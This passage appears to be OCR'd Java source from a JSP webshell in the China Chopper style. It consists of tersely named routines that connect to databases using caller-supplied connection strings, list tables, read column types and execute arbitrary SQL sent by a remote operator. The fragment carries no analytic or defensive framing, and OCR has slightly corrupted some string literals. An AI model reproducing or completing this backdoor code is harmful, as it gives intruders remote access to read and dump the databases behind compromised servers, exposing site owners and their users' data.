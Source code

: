 ```
c.close();

}

void OO(String s, StringBuffer sb) throws Exception {

Connection c = GC(s);

String[] x = s.trim().split(“choraheiheihei”);

ResultSet r = c.getMetaData().getTables(null,s.indexOf(“jdbc:oracle”)!=-1?x.length>5?x[5]:x[4]:null, “%”, new String[]{“TABLE”});

while (r.next()) {

sb.append(r.getString(“TABLE_NAME”) + “\t|\t\r\n”);

}

r.close();

c.close();

}

void PP(String s, StringBuffer sb) throws Exception {

String[] x = s.trim().split("\r\n");

Connection c = GC(s);

Statement m = c.createStatement(1005, 1007);

ResultSet r = m.executeQuery(“select * from " + x[x.length-1]);

ResultSetMetaData d = r.getMetaData();

for (int i = 1; i <= d.getColumnCount(); i++) {

sb.append(d.getColumnName(i) + " (” + d.getColumnTypeName(i)+ “)\t”);

}

r.close();

m.close();

c.close();

}

void QQ(String cs, String s, String q, StringBuffer sb,String p) throws Exception {

Connection c = GC(s);

Statement m = c.createStatement(1005, 1008);

BufferedWriter bw = null;

try {

ResultSet r = m.executeQuery(q.indexOf("–f:")!=-1?q.substring(0,q.indexOf("–f:")):q);

```